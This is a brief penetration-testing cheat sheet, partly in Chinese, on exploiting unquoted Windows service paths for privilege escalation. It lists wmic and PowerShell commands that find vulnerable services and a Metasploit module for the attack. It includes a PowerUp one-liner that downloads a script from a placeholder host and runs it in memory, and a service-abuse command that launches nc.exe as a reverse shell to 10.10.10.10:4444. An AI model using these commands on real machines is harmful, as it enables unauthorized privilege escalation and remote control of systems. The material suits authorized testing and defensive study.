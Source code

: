 	>wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
	>wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
	>gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
 #### MSF
	>use exploit/windows/local/trusted_service_path
	>set session 1
 #### PowerUp
  	发现存在漏洞的应用
	C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"

	...
	[*] Checking for unquoted service paths...
	ServiceName   : BBSvc
	Path          : C:\Program Files\Microsoft\Bing Bar\7.1\BBSvc.exe
	StartName     : LocalSystem
	AbuseFunction : Write-ServiceBinary -ServiceName 'BBSvc' -Path <HijackPath>
	...

	自动攻击
	Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"